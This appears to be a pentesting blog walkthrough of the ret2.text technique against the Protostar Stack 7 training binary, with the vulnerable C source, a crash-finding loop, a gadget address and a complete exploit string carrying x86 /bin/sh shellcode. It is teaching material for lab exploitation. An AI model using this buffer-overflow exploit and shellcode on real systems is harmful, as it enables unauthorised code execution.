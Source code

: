 ```yaml
---
layout: post
title: "Return to .Text"
featured-img: ret2Text
author: Josiah Bryan
category: [Pentesting]
---
```


# Prerequisites
In this article, we are going to quickly discuss a ROP technique called 'return to .text' (ret2.text). Before you proceed to learn about this slightly more advanced topic, I recommend becoming extremely familiar with the following prerequisites before moving on: 

* Exploiting Basic Buffer Overflows
* Return Oriented Programming (ROP)
* Return to LIBC
* Python
* Basic C Programming
* Assembly
* GNU Debugger (GDB)

## Spotting the Vulnerability

The ret2.text technque is almost identical to the return to libc (ret2libc) technique, but can be utilized in scenarios where libc can't be called directly from the stack. To demonstrate this, we will be going through [Exploit educations's Protostar Stack 7](https://exploit.education/protostar/stack-seven/) challenge. For more information on how to download/setup the Protostar VM, reference the Protostar [documentation](https://exploit.education/protostar/). Let's start by viewing the source code:

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
 char buffer[64];
 unsigned int ret;

 printf("input path please: "); fflush(stdout);

 gets(buffer);

 ret = __builtin_return_address(0);

 if((ret & 0xb0000000) == 0xb0000000) {
 printf("bzzzt (%p)", ret);
 _exit(1);
 }

 printf("got path %s", buffer);
 return strdup(buffer);
}

int main(int argc, char **argv)
{

 getpath();

}
```
From viewing the code you can easily spot out where the vulnerability is:

``` c
 gets(buffer);
```

The gets command will read the user's input into 'buffer' without verifying the input length, allowing the user to send an input longer than 64 characters and overwrite data on the stack. However, a basic buffer overflow or ret2libc exploit will not work in this scenario as a result of the address filtering executed by the program, with libc being located at 0xb7e97000 and the stack located around 0xbffffb8c on this particular system:

```c
 if((ret & 0xb0000000) == 0xb0000000) {
 printf("bzzzt (%p)", ret);
 _exit(1);
 }
```

This is where we can utilize ret2.text to gain code execution. We might not be able to jump to libc or the stack directly, but we can jump to the .text section of the binary where we might find a 'pop,pop,return' gadget. We can then place the address of our shellcode on the stack so the 'return' portion in 'pop,pop,return' jumps to our shellcode. The overall exploit format will look like the following:

Initial_buffer + pop_pop_ret_address + pop_pop_junk + nopsled_addr + nopsled_with_shellcode

* Initial_buffer- Buffer of random data used to overwrite the stack
* pop_pop_ret_address- The address of our 'pop,pop,ret' gadget in the .text section. This will overwrite the EIP
* pop_pop_junk- 8 bytes of junk that will be popped off the stack before returning
* nopsled_addr- The address of our nop sled on the stack
* nopsled_with_shellcode- The actual nop sled and shellcode to be executed


### What we need to find:

* The address of a 'Pop, Pop, Return' gadget in the .text section
* The position in the initial buffer where the EIP is overwritten
* Nopsled Address on the stack (or libc if DEP is enabled)


## Replicating the crash and finding EIP offset

To replicate the crash I ran the following command in bash:

``` bash
x=20; while true; do head -c $x /dev/zero | tr '\0' 'A' | ./stack6; if (($? == 139)); then break; fi; sleep 2; x=$((x+20)); echo $x; done
```

![replicate](/assets/img/posts/replicating_crash.png)

From here we can see that the crash happened somewhere between 80 and 100 bytes. Just to be safe we will generate a unique string 100 bytes long with msf-pattern_create:

![patternCreate](/assets/img/posts/pattern_create.png)


By running the program again with the unique string we can verify the location of the EIP with msf-pattern_offset:

![findEIP](/assets/img/posts/finding_EIP.png)

![patternOffset](/assets/img/posts/msf-pattern_offset.png)

## Finding a 'POP, POP, Return' Gadget

Once you transfer the stack7 binary over to your machine you can utilize msfelfscan (for example) to find a couple of 'pop, pop, return' gadgets for us. If you don't have msfelfscan you can use [Ropper](https://github.com/sashs/Ropper) to search for the gadgets.  In addition, you can always verify which gadgets are actually in the .text section of the binary with Ghidra, objdump, IDA, etc, but fortunately for us, all of the gadgets msfelfscan provides are in the .text section. In this walkthrough, we will use the second address (0x08048492) msfelfscan provides us:

![msfelfscan](/assets/img/posts/msfelfscan.png)

## Finding our Shellcode and a Note About Data Execution Prevention (DEP)

The final step in this exploit is to find where our shellcode and NOP sled will reside on the stack. Fortunately for us, this binary doesn't have DEP enabled. If DEP was enabled, however, we could simply jump to libc here instead of our shellcode directly and achieve the same results. To keep it simple let's use GDB to find where our shellcode lands on the stack:

![findShellcode](/assets/img/posts/finding_nopsled.png)

From the image, you can see the giant buffer of "\x41" bytes ("A" in ASCII), which is where we want to jump to. To play it safe, we will jump to the middle of this buffer at 0xbffffcdc.


## Putting it all together
Going back to our initial overview of the exploit, let's plug in the necessary information

* Initial_buffer- 80 "A" characters
* pop_pop_ret_address- 0x08048492
* pop_pop_junk- "BBBBCCCC" (This is just junk top be popped off)
* nopsled_addr- 0xbffffcdc 
* nopsled_with_shellcode- any x86 /bin/sh shellcode will work here. You can find lots of shellcode on [Shell Storm](http://shell-storm.org/shellcode/)

Conceptually, the overall exploit should resemble the following:

``` 
"A"*80 + 0x08048492 + "BBBBCCCC" + 0xbffffcdc + "NOP"*80 + Shellcode
```

Using this information we can send our exploit string to a file using the following command in python. Remember that the addresses are in little endian format. You can learn more about endianess [here](https://betterexplained.com/articles/understanding-big-and-little-endian-byte-order/):

``` bash
python -c'print "A"*80+"\x92\x84\x04\x08"+"BBBBCCCC"+"\xdc\xfc\xff\xbf"+"\x90"*80+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' > /tmp/test
```

## Testing the Exploit in GDB

From here we can fire off our exploit in GDB to see if everything worked correctly:

![testingExploit](/assets/img/posts/runningTheexploit.png)


It worked!! To run the exploit in GDB you can issue the following commands:

``` bash
gdb /opt/protostar/bin/stack7

(gdb) r < /tmp/test

```

## Conclusion

If you have experience using the ret2libc technique, ret2.text should be pretty easy to pull off. At the end of the day, it's another technique in the toolbag you can use in your Capture the Flag and binary exploitation adventures.


*The heart of the discerning acquires knowledge, for the ears of the wise seek it out.* -Proverbs 18:15